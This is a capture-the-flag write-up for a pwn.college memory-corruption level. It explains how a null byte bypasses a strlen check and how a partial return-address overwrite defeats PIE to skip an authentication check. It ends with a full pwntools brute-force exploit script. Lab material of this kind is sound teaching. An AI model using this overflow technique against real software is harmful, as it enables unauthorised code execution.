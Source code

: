



## Challenge Name: 
**Category:** Level 8.1

### Description

In this level, we need to force the program to execute the win_authed() function
by directly overflowing into the stored return address back to main.

Standard memory corruption mitigations for this challenge:
- the canary is disabled
- PIE is ENABLED

One caveat in this challenge is that the win_authed() function must first auth:
it only lets you win if you provide it with the argument 0x1337.
Speifically, the win_authed() function looks something like:
    void win_authed(int token)
    {
      if (token != 0x1337) return;
      puts("You win! Here is your flag: ");
      sendfile(1, open("/flag", 0), 0, 256);
      puts("");
    }


### Approach

In this level, **PIE** (Position Independent Executable) is enabled, which means we don't know the exact address of our target. However, since pages are aligned to 0x1000, we can just overwrite the offset.

Analyzing the binary on Gidra I found where will the buffer be stored inside the stack, knowing its offset form the RBP helps to understand the size of the payload.

![img](</pwn-college/Program-Security/memory-errors/level8/images/img1.png>)


The challenge will allocate a correctly-sized temporary
buffer on the heap for the payload, and then copy the data over to the stack to try avoiding BOFs(Buffer OverFlow):

```
if( 0x39 < strlen(buff_heap))
```
inserting a null byte '\x00' inside the payload is enought to bypass this check.

![img](</pwn-college/Program-Security/memory-errors/level8/images/img2.png>)

About the **win_authed()** function is easy to bypass the check, it's enought to overwrite the return address past the token check to bypass it!
To do this, we will need to analyze the program, identify where the check is in the win_authed() function, find the address right after the check, and write that address over the saved return address.

![img](</pwn-college/Program-Security/memory-errors/level8/images/img3.png>)

As said before, since the PIE is active we will bruteforce the 2 least significant bytes of the found address: <1f 20>

So the payload information and data ectracted are:

payload_size =
 - Offset between buffstart and RBP
 - +8 bytes of RBP
 - +2 bytes of the least significant bytes that we are bruteforcing

PAYLOAD = 
  - \x00(null_byte)
  -  RANDOM DATA till Return Address start
  -  \x1f \x20


### Solution
[Code here](/pwn-college/Program-Security/memory-errors/level8/solution.py)

```
# Import necessary module from the pwntools library
from pwn import *

# Initialize a flag to track whether the desired condition is met
found = False

# Since we have to bruteforce 2 bytes -> 16 possible values
# we iterate 16/2 times  = 8
for x in range(8):
    
    # If the desired condition is already found, break out of the loop
    if found:
        break

    # Create an ELF object representing the binary file
    elf = ELF('/challenge/babymem_level8.1')

    # Start a new process of the binary
    io = elf.process()

    # Receive data from the process until a specified string is encountered
    io.recvuntil(': ')

    # Define sizes for different parts of the payload
    ret_size = 8
    RBP_size = 8
    least_significant_size = 2
    null_byte_size = 1

    # Define a null byte
    null_byte = b'\x00'

    # Initialize RBP (base pointer) value just for calculation purpose
    RBP = 0

    # Starting address of the buffer
    buff_start = RBP - 0x60

    # Calculate the size of the payload as
    #|Buff start| ---overflow data--| ---overflow rbp--| change only 2 bytes of RET addr|
    payload_size = abs(buff_start - RBP) + RBP_size + least_significant_size

    # Send the payload size to the process
    io.sendline(f'{payload_size}'.encode())

    # Receive data from the process until '!' is encountered
    io.recvuntil('!')             

    # Define the least significant bytes of the return address that we are bruteforcing
    least_significant_byte_ret = '20 1f'

    # Construct the payload
    PAYLOAD = null_byte + b'A' * (payload_size - least_significant_size - null_byte_size)
    PAYLOAD += bytes(bytearray.fromhex(least_significant_byte_ret))

    # Send the payload to the process
    io.sendline(PAYLOAD)

    # Receive all output from the process and decode it
    output = io.recvall().decode()

    # Check if the output contains the string "You win!"
    if "You win!" in output:
        # If so, set the flag to True and print the output
        found = True
        print(output)

```
  

---
<a href="/pwn-college/main.md" class="btn">Back to home</a>
